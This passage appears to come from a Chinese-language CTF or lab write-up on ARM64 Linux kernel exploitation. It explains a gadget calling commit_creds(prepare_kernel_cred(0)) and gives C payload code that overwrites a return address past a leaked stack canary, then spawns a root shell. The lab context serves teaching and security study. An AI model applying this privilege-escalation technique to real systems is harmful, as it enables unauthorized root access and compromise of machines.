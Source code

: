## 3 Task 2: 修改 return address，获取 root 权限
Task 2 要求我们跳转到 `first_level_gadget()`，看一下这段代码：
```c
void first_level_gadget(void)
{
    commit_creds(prepare_kernel_cred(0));
    asm volatile (                  \
                  "mov     x0, #0x0\n" \
                  "ldp     x29, x30, [sp] \n" \
                  "ldp     x19, x20, [sp, #16]\n" \
                  "ldr     x21, [sp, #32]\n" \
                  "add     sp, sp, #0x220 \n" \
                  "ret\n"  \
                 );
}
```
它首先用`commit_creds(prepare_kernel_cred(0));`提权，然后从栈上取了`fp`和`retAddr`，将`sp`增加了`0x220`并返回。<br />这些事情的目的是什么呢？<br />我们在`write4()`中篡改了`write3()`的返回地址后，从`write3()`返回到`first_level_gadget()`的某个地方；为了后面操作的正常进行，我们希望它能够正常返回；但是这时返回到`write2()`的地址已经被我们覆盖掉了，所以我们只能让它返回到`write1()`。恰好，在从`write3()`返回的时候`sp`会指向`write2()`的活动记录的最下面，因此这时候直接用`ldp`读到的就是返回`write1()`的正确地址和`fp`：
![image.png](./assets/1651568661907-8d24cf0a-73b7-472f-9903-e9ddea619fc5.png)
那么`sp += 0x220`是干什么呢？实际上就是因为，我们需要手动将`write2()`的活动记录回收掉；调试可以得知这个大小就是`write2()`活动记录的大小。

我们看一下对应的汇编代码：
![image.png](./assets/1651567629729-bf79e062-9e26-47b2-8f68-536ce828483d.png)
需要注意的是，我们不能够让这里第一行的操作修改掉`sp`。因此我们不能直接跳到第一行，而是跳到第二行或者第三行开始运行。

因此，我们的 payload 设计如下：
```c
static const u64 firstLevelGadgetTarget = 0xffff8000107abd80;

void goToFirstLevelGadget(int fd) {
    char buf[50] = "0123456789012345\x30";
    
    copyByte(canary, buf + 24);
    copyByte(oldFp, buf + 32);
    u64 target = firstLevelGadgetTarget + *(u64 *)offset;
    copyByte((char *)&target, buf + 40);
    
    write(fd, buf, 48); 
    read(fd, buf, 48); 
   
    system("/bin/sh");
}
```
即，我们将`canary`和`oldFp`原样写入，然后根据`offset`和第三行的地址`0xffff8000107abd80`计算出`target`覆盖掉`ret addr`，然后调用`write`进行写入。

尝试编译运行，可以看到，我们成功获取了 root 权限，并获取了 flag：
![image.png](./assets/1651565872873-5f3fb698-be3f-4a8d-a00a-ab751cda3a25.png)

